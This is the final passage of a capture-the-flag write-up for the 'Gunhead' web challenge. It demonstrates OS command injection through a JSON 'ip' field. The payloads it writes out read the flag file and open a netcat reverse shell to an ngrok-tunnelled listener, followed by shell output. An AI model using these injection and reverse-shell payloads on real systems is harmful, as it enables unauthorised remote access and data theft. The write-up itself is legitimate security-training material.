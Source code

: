 **Let's read the flag!**
```json
{
    "ip":" || cat ../flag.txt"
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318212633.png)

**Or, you can get a shell :D**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Gunhead)-[2023.03.18|21:28:43(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:17969 -> localhost:4444
[...]
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Gunhead)-[2023.03.18|21:28:09(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```

**Payload:**
```json
{
    "ip":" || nc 0.tcp.ap.ngrok.io 17969 -e '/bin/sh'"
}
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Gunhead)-[2023.03.18|21:28:09(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56612
whoami;hostname;id;ip a
www
ng-gunhead-axuru-69c8bcb87c-nsl6z
uid=1000(www) gid=1000(www) groups=1000(www)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
26: eth0@if27: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether fa:1e:e5:23:24:12 brd ff:ff:ff:ff:ff:ff
    inet 10.244.17.207/32 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::f81e:e5ff:fe23:2412/64 scope link 
       valid_lft forever preferred_lft forever
cat ../flag.txt
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

Nice! We're in!

- **Flag: `HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`**

## Conclusion

What we've learned:

1. OS Command Injection